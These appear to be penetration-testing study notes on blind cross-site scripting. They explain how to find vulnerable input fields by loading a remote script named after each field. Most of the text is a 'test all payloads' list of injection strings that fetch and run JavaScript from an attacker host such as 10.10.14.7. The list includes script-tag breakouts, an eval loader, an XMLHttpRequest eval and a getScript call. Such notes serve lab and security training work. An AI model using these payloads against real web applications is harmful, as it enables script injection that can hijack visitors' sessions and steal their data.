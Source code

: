 To know which input fields are vulnerable, we can try loading a remote `js` file from our machine and changing the request to be the name of the input field i.e. `<script src=http://OUR_IP/username></script>`


> [!NOTE] Note
> Blind XSS has a higher success rate with DOM XSS type of vulnerabilities because of the ability to read the source code and creating a payload based off of it.


## TEST ALL PAYLOADS
```js
<script src=http://10.10.14.7></script>
'><script src=http://10.10.14.7></script>
"><script src=http://10.10.14.7></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//10.10.14.7");a.send();</script>

<script>$.getScript("http://10.10.14.7")</script>
```

> [!NOTE] Note
> For registration forms, email fields are less likely to be vulnerable due to the format requirements being validated by front and back ends. Same with passwords as they'll be hashed
